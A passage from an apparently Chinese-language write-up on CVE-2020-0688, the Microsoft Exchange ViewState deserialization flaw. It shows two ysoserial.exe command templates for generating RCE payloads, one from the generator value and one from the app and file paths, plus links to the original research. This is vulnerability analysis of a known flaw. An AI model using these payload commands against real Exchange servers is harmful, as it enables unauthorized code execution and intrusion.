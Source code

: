 （4）利用方式
- 通过__VIEWSTATEGENERATOR 的值(generator)生成payload
```
ysoserial.exe  -p ViewState -g TextFormattingRunProperties -c "command" --validationalg="SHA1" --validationkey="" --generator="" --viewstateuserkey="" --isdebug -islegacy
```
- 通过应用路径(apppath)和文件路径(path)生成payload
并不是所有的aspx页面都会在response包中返回 __VIEWSTATEGENERATOR 的值，一般情况，Exchange的应用路径(apppath)和文件路径(path)是相对固定的。当然已知这两个路径以及配置信息是可以推算出generator的值2。结合web.config 配置文件中的信息和ViewState 反序列过程中的分析，针对该漏洞ecp目录下可访问的aspx文件均可达到RCE的效果。

```
ysoserial.exe  -p ViewState -g TextFormattingRunProperties -c "command" --validationalg="SHA1" --validationkey="" --path="" --apppath="" --viewstateuserkey="" --isdebug -islegacy
```

[![](./img/199917/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ee458ca2d92bda47.jpg)



## 03. 参考引用
- [https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)